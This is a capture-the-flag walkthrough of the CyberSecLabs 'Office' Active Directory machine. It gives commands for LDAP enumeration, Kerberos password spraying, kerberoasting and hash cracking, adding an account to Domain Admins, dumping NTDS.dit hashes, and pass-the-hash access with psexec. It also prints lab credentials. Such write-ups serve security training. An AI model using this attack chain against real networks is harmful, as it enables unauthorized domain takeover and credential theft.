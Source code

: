 ## Cyberseclabs - Office Walkthrough


## Nmap Scan 
As usual, we start off with a nmap scan to discover open ports and its corresponding services running on the system.

![nmap_scan.PNG](/images/office/Nmap/nmap_scan.PNG)

From the nmap scan , we see a bunch of open ports, mainly
- Port 88 : Kerberos
- Ports 135,139,445 : SMB 
- Ports 389,3268 : LDAP
- Port 3389 : RDP
- Port 5985 : Winrm 

Before we continue, we have to edit our **hosts** file and add the  domain name + IP address 

![hosts.PNG](/images/office/Nmap/hosts.PNG)

## SMB Enumeration
Let's start off by enumerating SMB, to see if we have anonymous access (a.k.a NULL Session).

![smbclient.PNG](/images/office/Nmap/smbclient.PNG)

As seen above, no shares were shown/discovered when we login to smb as anonymous 

Since we do not have any credentials or information on SMB, let's turn our attention to LDAP.

## LDAP Enumeration
One great tool to enumerate LDAP that is build into Kali Linux is **ldapsearch**.
![namingcontexts.PNG](/images/office/LDAP/namingcontexts.PNG)
<u>ldapsearch -h 172.31.3.2 -x -s base namingcontexts</u>

By running the above command, we get the base DN so that we can do our ldap query later on.

![dsmith.PNG](/images/office/LDAP/dsmith.PNG)
![crhodes.PNG](/images/office/LDAP/crhodes.PNG)
![ssmith.PNG](/images/office/LDAP/ssmith.PNG)
<u>ldapsearch -h 172.31.3.2 -x -b "DC=roast,DC=csl"</u>

Looking at the output above , we discovered 3 users and user **dsmith** has its password in his description. (WelcomeToR04st)

We went back to **enumerate smb** with user **dsmith**'s credentials, however, nothing interesting there.

## RPC User Enumeration 
Upon obtaining user **dsmith**'s credentials, I tried to enumerate for more users using rpcclient 
![enumdomusers.PNG](/images/office/rpcclient/enumdomusers.PNG)
From the output, there is an additional non-default user  **roastsvc**.

## Kerbrute PasswordSpray
Since evil-winrm does not return us a shell as user **dsmith**, let's try some password spraying to see if any other users share the same password as **dsmith**
![passwordspraying.PNG](/images/office/kerbrute/passwordspraying.PNG)
<u>./kerbrute_linux_amd64 passwordspray -v -d roast.csl --dc 172.31.3.2 users.txt WelcomeToR04st</u>

Through password spraying, we discover that user **crhodes** also shares the same password as user **dsmith**. 

## Enumerate users with SPN set
Let's obtain a shell as user **crhodes** using evil-winrm and at the same time, load [PowerView](https://github.com/PowerShellMafia/PowerSploit) powershell script.
![crhodes.PNG](/images/office/kerberoast/crhodes.PNG)
After obtaining a shell as user **crhodes**, we realised that the access.txt is not in the Desktop directory. It means we have to enumerate more and esclate ourselves to another user. 

From here, we can get more information on all the AD users by running PowerView's command **Get-NetUser -SPN** to list all users with a SPN set. 

![SPN.PNG](/images/office/kerberoast/SPN.PNG)
From the output, we discover that user **roastsvc** has a serviceprincipalname(SPN) set. With this information, it tells us that user **roastsvc** is **likely** susceptible to **kerberoasting**.

## Kerberoasting 
Since we know that user **roastsvc** is likely vulnerable to kerberoasting, we can use [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) by impacket to obtain the TGS and take it offline to crack
![TGS.PNG](/images/office/kerberoast/TGS.PNG)

Once we obtain the TGS, let's crack it with hashcat
![cracked_tgs.PNG](/images/office/kerberoast/cracked_tgs.PNG)
<u>hashcat -m 13100 -a 0 roastsvc_spn /usr/share/wordlists/rockyou.txt</u>

Credentials -> roastsvc:!!!watermelon245

## Privilege Esclation to SYSTEM
Once we get a shell as user **roastsvc**, we upload and run [BloodHound](https://github.com/BloodHoundAD/BloodHound) against the machine to reveal any misconfigured AD relationships.

First, let's setup a smb-server using impacket then mount the smb share on the target machine, so that we can upload Bloodhound and download the bloodhound output with ease
- Setup impacket's smb-server
	![smbserver.PNG](/images/office/SMBServer/smbserver.PNG)
	Syntax : impacket-smbserver (sharename) (directory) -smb2support -username (your-username) -password (your-password)
- Setup new PSDrive on target machine and mount the share
	![mount.PNG](/images/office/SMBServer/mount.PNG)
	- $pass = convertto-securestring (your-password) -AsPlainText -Force
	- $cred = New-Object System.Management.Automation.PSCredential('(your-username)', $pass)
	- New-PSDrive -Name (your-username) -PSProvider FileSystem -Credential $cred \\\\(your-ip)\(share-name)
- CD into your share, run bloodhound 
	![sharphound.PNG](/images/office/SMBServer/sharphound.PNG)
	- Make sure you upload bloodhound to the directory you created as the share
- Start Bloodhound 
	![bloodhound.PNG](/images/office/SMBServer/bloodhound.PNG)
	- neo4j console start
	- bloodhound 

- Upload the bloodhound output to analyze 
	![bloodhound_output.PNG](/images/office/SMBServer/bloodhound_output.PNG)
	- Drag and drop the zip file into the bloodhound console

Once we are done setting up BloodHound, let's start analyzing the output that we have gathered from the target machine.
- Mark user **roastsvc** as **Owned**
	![owned_user.jpg](/images/office/SYSTEM/owned_user.jpg)
- Use the built-in query 
	![path_to_DA.jpg](/images/office/SYSTEM/path_to_DA.jpg)
	- "Shortest Path to Domain Admins from Owned Principals"

From here, we found out that user **roastsvc** has **GenericWrite** to group **Domain Admins**.

![generic_write.PNG](/images/office/SYSTEM/generic_write.PNG)
- **GenericWrite** : Provides write access to all properties

Since user **roastsvc** has **GenericWrite** permission to the **Domain Admins** group, we can simply just add user **roastsvc** into the **Domain Admins** group.
- List all current members of **Domain Admins** group
	![original_DA_members.PNG](/images/office/SYSTEM/original_DA_members.PNG)
	- net group (group-name) /domain
- Add user **roastsvc** into **Domain Admins** group
	![add_to_DA.PNG](/images/office/SYSTEM/add_to_DA.PNG)
	- net group (group-name) (user-to-add) /ADD /DOMAIN 
- Check if user **roastsvc** is added into the group
	![updated_DA_members.PNG](/images/office/SYSTEM/updated_DA_members.PNG)
	- net group (group-name) /domain

Lastly, we can dump the NTDS.dit hash file for the Administrator's hash using [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) by impacket and [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) into the target machine
- Dumping the NTDS.dit hash file 
	![secretsdump.PNG](/images/office/SYSTEM/secretsdump.PNG)
	- python secretsdump.py (domain-name)/(user)@(domain-name) -dc-ip 172.31.3.2
- Get the Administrator's hash
	![admin_hash.PNG](/images/office/SYSTEM/admin_hash.PNG)
	
- PSExec 
	![psexec.PNG](/images/office/SYSTEM/psexec.PNG)
	- python psexec.py (domain-name)/user@(domain-name) -hashes (admin-hash) -dc-ip 172.31.3.2 




















